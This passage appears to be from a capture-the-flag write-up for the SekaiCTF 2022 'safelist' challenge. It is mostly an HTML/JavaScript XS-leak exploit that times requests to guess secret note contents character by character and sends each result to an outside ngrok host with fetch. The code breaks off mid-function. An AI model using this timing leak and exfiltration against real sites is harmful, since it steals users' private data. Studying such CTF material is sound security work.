 Same tactic but different code from [https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/](https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/)

```html
<!DOCTYPE html>
<html>
<!--
  The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs main thread.
  If images are loading, the request to "/" is slower, otherwise faster.
  By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
  We can use fetch to measure the request time.
-->
<body>
  <button onclick="run()">start</button>
  <form id=f action="http://localhost:1234/create" method="POST" target="_blank">
    <input id=inp name="text" value="">
  </form>

  <form id=f2 action="http://localhost:1234/remove" method="POST" target="_blank">
    <input id=inp2 name="index" value="">
  </form>
  <script>
    let flag = 'SEKAI{'
    const TARGET = 'https://safelist.ctf.sekai.team'
    f.action = TARGET + '/create'
    f2.action = TARGET + '/remove'

    const sleep = ms => new Promise(r => setTimeout(r, ms))
    const send = data => fetch('http://server.ngrok.io?d='+data)
    const charset = 'abcdefghijklmnopqrstuvwxyz'.split('')

    // start exploit
    let count = 0
    setTimeout(async () => {
      let L = 0
      let R = charset.length - 1
      while( (R-L)>3 ) {
        let M = Math.floor((L + R) / 2)
        let c = charset[M]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          L = M
        } else {
          R = M - 1
        }
      }

      // fallback to linear since I am not familiar with binary search lol
      for(let i=R; i>=L; i--) {
        let c = charset[i]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          send('found: '+ flag+c)
          flag += c
          break
        }
      }
      
    }, 0)

    async function testChar(str) {
```